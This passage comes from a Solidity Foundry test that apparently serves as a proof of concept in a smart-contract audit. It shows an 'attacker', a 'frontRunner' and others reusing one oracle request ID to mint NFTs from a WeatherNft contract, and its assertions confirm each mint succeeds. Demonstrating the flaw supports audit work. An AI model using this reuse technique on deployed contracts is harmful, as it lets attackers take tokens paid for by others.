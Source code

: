 ```Solidity
        WeatherNftStore.Weather.SUNNY
    );
    weatherNft.handleOracleFulfillment(reqId, weatherResponse, "");

    // Multiple users will now use the same request ID to mint NFTs
    address[] memory minters = new address[](5);
    minters[0] = user; // Original requester
    minters[1] = attacker; // Malicious actor
    minters[2] = frontRunner; // Another malicious actor
    minters[3] = makeAddr("random1");
    minters[4] = makeAddr("random2");

    // Track minted token IDs
    uint256[] memory tokenIds = new uint256[](5);
    uint256 mintersLength = minters.length;
    
    // Each user mints an NFT with the SAME requestId
    for (uint256 i = 0; i < mintersLength; i++) {
        // Record token counter before minting
        uint256 tokenCountBefore = weatherNft.s_tokenCounter();
        console.log(
            "Token count before minting: ",
            tokenCountBefore
        );
        
        // Mint using the same requestId
        vm.prank(minters[i]);
        weatherNft.fulfillMintRequest(reqId);

        // Verify an NFT was minted (token counter increased)
        uint256 tokenCountAfter = weatherNft.s_tokenCounter();
        console.log(
            "Token count after minting: ",
            tokenCountAfter
        );
        tokenIds[i] = tokenCountBefore; // The ID that was minted
        console.log(
            "Token ID minted: ",
            tokenIds[i]
        );

        assertEq(
            tokenCountAfter,
            tokenCountBefore + 1
        );
        assertEq(
            weatherNft.balanceOf(minters[i]),
            1
        );
        assertEq(
            weatherNft.ownerOf(tokenIds[i]),
            minters[i]
        );

        // Verify all NFTs have the same weather (from the single oracle response)
        assertEq(
            uint8(weatherNft.s_tokenIdToWeather(tokenIds[i])),
            uint8(WeatherNftStore.Weather.SUNNY)
        );

        console.log(
            "User %s minted token ID %d using requestId %s",
            minters[i],
```